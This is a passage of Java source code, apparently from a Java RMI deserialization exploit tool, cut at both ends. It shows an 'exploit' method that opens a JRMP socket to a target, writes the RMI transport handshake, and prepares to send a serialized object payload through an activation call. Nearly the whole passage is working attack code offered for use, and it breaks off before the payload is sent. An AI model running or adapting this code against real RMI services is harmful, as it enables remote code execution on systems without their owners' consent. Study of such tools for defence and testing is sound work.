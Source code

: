            c.close();
        }
        finally {
            if ( s != null ) {
                s.close();
            }
        }

        Thread.sleep(5000);

    }


    /**
     * @param inetSocketAddress
     * @param obj
     * @param o1
     * @param o2
     * @param o3
     * @throws IOException
     */
    private static void exploit ( InetSocketAddress isa, long obj, int o1, long o2, short o3, ObjectPayload payload, String payloadArg )
            throws Exception {
        Socket s = null;
        try {
            System.err.println("* Opening JRMP socket " + isa);
            s = SocketFactory.getDefault().createSocket(isa.getAddress(), isa.getPort());
            s.setKeepAlive(true);
            s.setTcpNoDelay(true);

            OutputStream os = s.getOutputStream();
            DataOutputStream dos = new DataOutputStream(os);

            dos.writeInt(TransportConstants.Magic);
            dos.writeShort(TransportConstants.Version);
            dos.writeByte(TransportConstants.SingleOpProtocol);

            dos.write(TransportConstants.Call);

            final ObjectOutputStream objOut = new ObjectOutputStream(dos) {

                protected void annotateClass ( Class<?> cl ) throws IOException {
                    if ( ! ( cl.getClassLoader() instanceof URLClassLoader ) ) {
                        writeObject(null);
                    }
                    else {
                        URL[] us = ( (URLClassLoader) cl.getClassLoader() ).getURLs();
                        String cb = "";
                        for ( URL u : us ) {
                            cb += u.toString();
                        }
                        writeObject(cb);
                    }
                }
                protected void annotateProxyClass ( Class<?> cl ) throws IOException {
                    annotateClass(cl);
                }
            };

            objOut.writeLong(obj);
            objOut.writeInt(o1);
            objOut.writeLong(o2);
            objOut.writeShort(o3);

            objOut.writeInt(-1);
            objOut.writeLong(Util.computeMethodHash(ActivationInstantiator.class.getMethod("newInstance", ActivationID.class, ActivationDesc.class)));
